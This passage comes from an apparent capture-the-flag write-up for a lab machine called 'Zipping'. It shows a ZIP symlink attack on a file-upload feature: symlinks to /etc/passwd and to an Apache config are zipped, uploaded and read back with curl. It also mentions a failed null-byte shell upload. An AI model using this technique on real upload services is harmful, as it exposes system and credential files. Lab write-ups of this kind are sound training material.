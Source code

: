 



 Lets check the website . Now look at this i tried upload shell from here using null byte but it is nothing because the creator was patched for null bytes . So lets try using [ZIP Symlink Vulnerability](https://effortlesssecurity.in/zip-symlink-vulnerability/) you can see here to exploit `ZIP SYMLINK`.The exploit work for read file and folder like lfi but using PDF file so to create malicious pdf using `ln` command

 `ln -s /etc/passwd etc.pdf` after that zip this file using zip
 `zip -r etc.zip etc.pdf` and upload the zip file at zipping upload .

 After you uploaded the zip file there would give link file pdf like this `http://zipping.htb/uploads/2734449af42ebfe74df5f6865e2529cd/etc.pdf`

 so now to read /etc/passwd using curl command

 `curl http://zipping.htb/uploads/2734449af42ebfe74df5f6865e2529cd/etc.pdf`
 
 ![](images/2024-01-19-13-42-57.png)

&nbsp;




 So now we need read source code file zipping to code analysis to exploit the vuln . To knows where the path domain read the apache config or nginx config . The website using apache . So i need recreate zip symlink again .

 `ln -s /etc/apache2/sites-available/000-default.conf apache.pdf`

 &nbsp;
